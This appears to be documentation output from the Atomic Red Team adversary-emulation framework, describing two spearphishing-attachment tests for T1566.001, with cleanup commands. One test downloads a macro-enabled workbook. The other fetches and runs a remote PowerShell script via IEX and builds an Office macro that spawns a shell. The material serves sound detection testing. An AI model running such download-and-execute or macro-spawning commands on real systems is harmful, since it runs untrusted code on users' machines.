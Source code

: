 ### Example Commands

- To show test details for `T1566.001`:

```powershell
Invoke-AtomicTest T1566.001 -ShowDetails

PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

[********BEGIN TEST*******]
Technique: Phishing: Spearphishing Attachment T1566.001
Atomic Test Name: Download Macro-Enabled Phishing Attachment
Atomic Test Number: 1
Atomic Test GUID: 114ccff9-ae6d-4547-9ead-4cd69f687306
Description: This atomic test downloads a macro enabled document from the Atomic Red Team GitHub repository, simulating
an end user clicking a phishing link to download the file. The file "PhishingAttachment.xlsm" is downloaded to the %temp
% directory.

Attack Commands:
Executor: powershell
ElevationRequired: False
Command:
$url = 'http://localhost/PhishingAttachment.xlsm'
Invoke-WebRequest -Uri $url -OutFile $env:TEMP\PhishingAttachment.xlsm

Cleanup Commands:
Command:
Remove-Item $env:TEMP\PhishingAttachment.xlsm -ErrorAction Ignore
[!!!!!!!!END TEST!!!!!!!]

[********BEGIN TEST*******]
Technique: Phishing: Spearphishing Attachment T1566.001
Atomic Test Name: Word spawned a command shell and used an IP address in the command line
Atomic Test Number: 2
Atomic Test GUID: cbb6799a-425c-4f83-9194-5447a909d67f
Description: Word spawning a command prompt then running a command with an IP address in the command line is an indiciat
or of malicious activity. Upon execution, CMD will be lauchned and ping 8.8.8.8

Attack Commands:
Executor: powershell
ElevationRequired: False
Command:
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "   Open `"#{jse_path}`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   Shell`$ `"ping 8.8.8.8`"`n"
Invoke-MalDoc -macroCode $macrocode -officeProduct "#{ms_product}"
Command (with inputs):
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "   Open `"C:\Users\Public\art.jse`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   Shell`$ `"ping 8.8.8.8`"`n"
Invoke-MalDoc -macroCode $macrocode -officeProduct "Word"

Cleanup Commands:
Command:
Remove-Item #{jse_path} -ErrorAction Ignore
Command (with inputs):
Remove-Item C:\Users\Public\art.jse -ErrorAction Ignore
```